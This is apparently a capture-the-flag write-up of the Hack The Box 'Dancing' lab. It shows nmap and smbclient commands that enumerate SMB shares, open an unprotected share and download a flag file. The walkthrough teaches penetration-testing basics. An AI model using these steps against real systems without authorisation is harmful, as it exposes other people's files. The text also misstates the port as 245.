 # [Dancing](https://app.hackthebox.com/starting-point)

## Target IP - 10.129.244.243

### Enumeration

Here we are checking if we are able to establish a connection with the target machine. In Conclusion we are able to establish a connection between our lab with the target.

**Command 1** - 

`ping 10.129.244.243`

**Output** - 

```
PING 10.129.244.243 (10.129.244.243) 56(84) bytes of data.
64 bytes from 10.129.244.243: icmp_seq=1 ttl=126 time=223 ms
64 bytes from 10.129.244.243: icmp_seq=2 ttl=126 time=223 ms
64 bytes from 10.129.244.243: icmp_seq=3 ttl=126 time=227 ms
64 bytes from 10.129.244.243: icmp_seq=4 ttl=126 time=226 ms
^C
--- 10.129.244.243 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 223.375/224.862/226.739/1.491 ms
```

Here we are scanning the target machine for the open ports or services. In conclusion we find out that there is service named as microsoft-sd which is open on 245/tcp port. We can try accessing the service using smbclient.

**Command 2** -

`nmap -sV 10.129.244.243 -p 400-450`

**Output** -

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-17 16:07 IST
Nmap scan report for 10.129.244.243
Host is up (0.68s latency).
Not shown: 50 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
445/tcp open  microsoft-ds?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 109.03 seconds
```

Here we tried to find out the shares present on the tagret machine and found four shares.

**Command 3** -

`smbclient -L 10.129.244.243`

**Output** - 

```
Password for [WORKGROUP\goobar07]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
tstream_smbXcli_np_destructor: cli_close failed on pipe srvsvc. Error was NT_STATUS_IO_TIMEOUT
Reconnecting with SMB1 for workgroup listing.
```

### Foothold

Now we tried accessing the target machine with "ADMIN$" share and didn't got access.

**Command 4** - 

`smbclient \\\\10.129.244.243\\ADMIN$`

**Output** -

```
Password for [WORKGROUP\goobar07]:
tree connect failed: NT_STATUS_ACCESS_DENIED
```

Now we tried accessing the target machine with "IPC$" share and didn't got access.

**Command 5** -

`smbclient \\\\10.129.244.243\\IPC$`

**Output** -

```
Password for [WORKGROUP\goobar07]:
tree connect failed: NT_STATUS_ACCESS_DENIED
```

Now we tried accessing the target machine with "C$" share and didn't got access.

**Command 6** - 

`smbclient \\\\10.129.244.243\\C$`

**Output** -

```
Password for [WORKGROUP\goobar07]:
tree connect failed: NT_STATUS_ACCESS_DENIED
```

Now we tried accessing the target machine with "WorkShares" share and did got access.

**Command 7** -

`smbclient \\\\10.129.244.243\\WorkShares`

**Output** - 

```
Password for [WORKGROUP\goobar07]:
Try "help" to get a list of possible commands.
smb: \>
```

Now we tried to get what command's which can be used on the smb and got a list of commands that we can use.

**Command 8** -

`help`

**Output** -

```
smb: \> help
?              allinfo        altname        archive        backup
blocksize      cancel         case_sensitive cd             chmod
chown          close          del            deltree        dir
du             echo           exit           get            getfacl
geteas         hardlink       help           history        iosize
lcd            link           lock           lowercase      ls
l              mask           md             mget           mkdir
mkfifo         more           mput           newer          notify
open           posix          posix_encrypt  posix_open     posix_mkdir
posix_rmdir    posix_unlink   posix_whoami   print          prompt
put            pwd            q              queue          quit
readlink       rd             recurse        reget          rename
reput          rm             rmdir          showacls       setea
setmode        scopy          stat           symlink        tar
tarmode        timeout        translate      unlock         volume
vuid           wdel           logon          listconnect    showconnect
tcon           tdis           tid            utimes         logoff
..             !
```

We tried to list the contents down of the current directory and found 2 more directories

**Command 9** -

`ls`

**Output** -

```
smb: \> ls
  .                                   D        0  Mon Mar 29 13:52:01 2021
  ..                                  D        0  Mon Mar 29 13:52:01 2021
  Amy.J                               D        0  Mon Mar 29 14:38:24 2021
  James.P                             D        0  Thu Jun  3 14:08:03 2021

                5114111 blocks of size 4096. 1753733 blocks available
```

Listing the contents of the first directory we get "worknotes.txt".

**Command 10** -

`ls Amy.J\`

**Output** - 

```
  .                                   D        0  Mon Mar 29 14:38:24 2021
  ..                                  D        0  Mon Mar 29 14:38:24 2021
  worknotes.txt                       A       94  Fri Mar 26 16:30:37 2021

                5114111 blocks of size 4096. 1753717 blocks available
```

Downloaded the "worknotes.txt" to our so that we can access it.

**Command 11** -

`get Amy.J\worknotes.txt`

**Output** - 

```
getting file \Amy.J\worknotes.txt of size 94 as Amy.J\worknotes.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

Listing the contents of the second directory we get "flag.txt" which contains the flag of the machine.

**Command 12** -

`ls James.P\`

**Output** - 

```
smb: \> ls James.P\
  .                                   D        0  Thu Jun  3 14:08:03 2021
  ..                                  D        0  Thu Jun  3 14:08:03 2021
  flag.txt                            A       32  Mon Mar 29 14:56:57 2021

                5114111 blocks of size 4096. 1753717 blocks available
```

Downloaded the "flag.txt" to get the access of the file.

**Command 13** -

`get James.P\flag.txt`

**Output** -

```
getting file \James.P\flag.txt of size 32 as James.P\flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

### This machine has been pawned.

~goobar07
